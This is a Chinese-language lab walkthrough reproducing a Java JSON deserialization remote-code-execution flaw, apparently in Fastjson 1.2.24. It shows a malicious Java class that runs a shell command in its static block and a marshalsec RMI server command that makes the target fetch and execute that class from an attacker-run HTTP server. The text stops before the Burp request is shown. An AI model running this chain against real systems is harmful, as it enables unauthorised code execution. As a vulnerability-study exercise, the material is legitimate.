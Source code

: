 marshalsec

https://github.com/mbechler/marshalsec

### 复现

环境运行后，访问 `http://your-ip:8090`即可看到 JSON 格式的输出。

![1608275425_5fdc55e18512cd798fbe4.png!small?1608275425134](README/1608275425_5fdc55e18512cd798fbe4.png!small)

先准备一个恶意java文件

```java
import java.lang.Runtime;
import java.lang.Process;

public class rce_1_2_24_exploit {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"touch","/tmp/success"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}

```

用javac编译一下

再用python在这个目录下启动一个http服务

![image-20220228174554316](README/image-20220228174554316.png)

用marshalsec启动一个rmi恶意服务

`java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://localhost:6969/#rce_1_2_24_exploit" 9999`

在burp中发送一个post包
